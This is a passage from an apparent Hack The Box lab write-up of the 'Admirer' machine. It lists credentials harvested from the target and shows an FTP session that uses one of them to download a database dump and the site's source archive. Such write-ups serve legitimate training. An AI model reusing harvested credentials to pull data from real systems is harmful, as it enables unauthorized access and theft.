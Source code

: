 Now we have some useful credentials:
- **Internal mail account**:
    + username &rarr; w.cooper@admirer.htb
    + password &rarr; fgJr6q#S\W:$P

- **FTP account**:
    + username &rarr; ftpuser
    + password &rarr; %n?4Wz}R$tTF7

- **Wordpress account**:
    + username &rarr; admin
    + password &rarr; w0rdpr3ss01!


### FTP (port 21)

{% highlight bash %}
$ ftp $TARGET
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:root): ftpuser
331 Please specify the password.
Password: %n?4Wz}R$tTF7
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
ftp> get dump.sql
local: dump.sql remote: dump.sql
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
226 Transfer complete.
3405 bytes received in 0.00 secs (1.0795 MB/s)
ftp> get html.tar.gz
local: html.tar.gz remote: html.tar.gz
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for html.tar.gz (5270987 bytes).
226 Transfer complete.
5270987 bytes received in 10.05 secs (512.4245 kB/s)
{% endhighlight %}

We retrieved two files:
1. `dump.sql`
2. `html.tar.gz`

`html.tar.gz` looks like the source code of the website except that `/admin-dir` is replaced by `/w4ld0s_s3cr3t_d1r`. Besides, there is a folder called `utility-scripts`:

![utility-scripts](/assets/img/htb/machines/linux/easy/admirer/21-html.png)
